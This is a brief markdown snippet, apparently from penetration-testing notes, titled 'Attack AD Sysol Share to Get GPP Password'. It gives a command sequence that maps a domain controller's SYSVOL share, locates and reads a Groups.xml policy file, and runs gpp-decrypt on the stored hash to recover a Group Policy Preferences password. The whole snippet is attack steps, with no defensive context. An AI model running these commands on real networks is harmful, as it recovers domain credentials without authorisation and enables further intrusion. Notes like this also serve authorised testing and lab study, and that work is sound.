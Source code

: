 # Attack AD Sysol Share to Get GPP Password

```
net use z: \\$TARGET\sysvol
Z:\>dir /s Groups.xml 
copy Z:\megacorpone.com\Policies\{...}\Machine\Preferences\Groups\Groups.xml
type groups.xml
gpp-decrypt $HASH
```
